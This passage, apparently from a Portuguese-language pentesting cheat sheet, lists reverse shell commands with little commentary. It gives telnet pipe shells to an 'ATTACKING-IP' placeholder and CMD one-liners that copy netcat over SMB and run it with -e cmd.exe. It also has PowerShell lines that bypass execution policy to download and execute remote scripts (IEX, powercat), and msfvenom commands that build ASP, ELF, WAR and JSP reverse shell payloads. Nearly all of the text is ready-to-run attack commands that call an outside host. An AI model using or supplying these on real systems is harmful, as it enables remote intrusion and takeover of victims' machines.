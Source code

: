     telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
    
    rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

# CMD

Aqui vale uns comentários. Vale ressalltar que todos eles dependem de um terceiro para funcionar. Seja o netcat ou seja o powershell com duas variações interessantes.

Como o CMD em si não proporciona nenhuma ferramenta para obtermos shell reversa, temos algumas opções interessantes aqui  disponíveis... são elas:

    C:\Windows\System32\cmd.exe /c "mkdir c:\temp & copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"
 
Nesse caso temos a opção de subir um netcat na máquina alvo e executá-lo conforme comando acima. Outra opção seria utilizar o powershell para abertura dessa shell

    C:\Windows\System32\cmd.exe /c "powershell -ExecutionPolicy Bypass -Command [scriptblock]::Create((Invoke-WebRequest "http://192.168.0.165/shell2.txt").Content).Invoke();"
    
    C:\Windows\System32\cmd.exe /c "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.165/powercat.ps1');powercat -c 192.168.0.165 -p 8083 -e powershell"

# msfvenom

## Windows (web)
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp


## linux  
    msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=192.168.119.181 LPORT=80 > rshell.elf


## java

WAR PAYLOAD

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.150 LPORT=80 -f war -o rshell.war

JSP PAYLOAD

    msfvenom -p java/jsp_shell_reverse_tcp -f raw LHOST=192.168.119.143 LPORT=5555 > shell.jsp